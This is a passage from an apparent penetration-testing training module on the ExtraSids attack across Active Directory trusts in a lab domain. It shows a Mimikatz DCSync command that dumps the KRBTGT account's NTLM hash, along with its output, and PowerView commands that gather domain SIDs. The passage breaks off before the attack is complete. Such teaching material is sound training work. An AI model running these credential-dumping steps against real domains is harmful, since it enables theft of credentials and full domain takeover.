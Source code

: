 Now we can gather each piece of data required to perform the ExtraSids attack. First, we need to obtain the NT hash for the [KRBTGT](https://adsecurity.org/?p=483) account, which is a service account for the Key Distribution Center (KDC) in Active Directory. The account KRB (Kerberos) TGT (Ticket Granting Ticket) is used to encrypt/sign all Kerberos tickets granted within a given domain. Domain controllers use the account's password to decrypt and validate Kerberos tickets. The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain. This is also known as the Golden Ticket attack and is a well-known persistence mechanism for attackers in Active Directory environments. The only way to invalidate a Golden Ticket is to change the password of the KRBTGT account, which should be done periodically and definitely after a penetration test assessment where full domain compromise is reached.

Since we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

#### Obtaining the KRBTGT Account's NT Hash using Mimikatz

```powershell
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```

We can use the PowerView `Get-DomainSID` function to get the SID for the child domain, but this is also visible in the Mimikatz output above.

#### Get Domain SID Using Get-DomainSID

```powershell-session
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

Next, we can use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet with a command such as `Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`.
